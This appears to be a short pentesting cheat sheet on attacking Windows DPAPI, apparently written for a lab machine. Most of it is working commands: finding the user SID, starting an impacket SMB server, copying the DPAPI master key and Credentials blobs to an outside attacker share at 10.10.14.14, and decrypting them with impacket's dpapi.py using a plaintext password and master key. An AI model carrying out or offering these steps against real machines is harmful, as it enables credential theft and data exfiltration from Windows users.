 # DpApi attack  
DPAPI is Windows' built-in encryption system that protects things like saved passwords and Wi-Fi keys. Attackers don't break the encryption - they steal the keys to decrypt it.

# Steps
```language
1. Get the SID of the user
2. Grab the important files that is located in the appdata of user
3. Exract it offline .
```
# Get the sid
```language
whoami /all
or
impacket-getpac.py
```
# Grab these two files
```language
C:\Users\<user>\AppData\Roaming\Microsoft\Protect

C:\Users\<user>\AppData\Roaming\Microsoft\Credentials
```
# For Example:-
```language
#start a smb server to downk=load the files
sudo impacket-smbserver share ./ -smb2support

#connec the box
net use \\ip\share
#copy the files

copy C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580 \\10.10.14.14\share
copy C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290 \\10.10.14.14\share

# Extract the Master key
python3 /usr/share/doc/python3-impacket/examples/dpapi.py masterkey -file 0792c32e-48a5-4fe3-8b43-d93d64590580 -password '4Cc3ssC0ntr0ller' -sid  S-1-5-21-953262931-566350628-63446256-1001

# Extract the password
 python3 /usr/share/doc/python3-impacket/examples/dpapi.py credential -file 51AB168BE4BDB3A603DADE4F8CA81290 -key 0xb360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
```
